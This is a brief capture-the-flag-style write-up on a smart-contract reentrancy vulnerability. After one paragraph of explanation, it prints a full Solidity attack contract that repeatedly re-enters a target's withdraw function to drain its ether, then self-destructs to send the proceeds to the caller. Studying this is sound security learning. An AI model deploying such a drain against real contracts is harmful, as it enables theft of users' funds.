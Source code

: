 # Reentrancy

Smart contracts can run code when receiving funds, which means that a transaction can trigger re-entrancy. The vulnerable contract only deducts an account's funds after a transaction so we use what we've learned to skip that altogether.

```javascript
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract Reentrance {

    function donate(address _to) public payable {}
    function withdraw(uint _amount) public {}
}

contract DoubleDipping {
    
    Reentrance reentrance;
    
    constructor(address _instance) {
        reentrance = Reentrance(_instance);
    }
    
    function dip() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(1 ether);
    }
    
    receive() external payable {
        // Double dip
        if (address(reentrance).balance >= 1 ether) {
            reentrance.withdraw(1 ether);
        }
    }
    
    function refund() public {
        selfdestruct(payable(msg.sender));
    }
}
```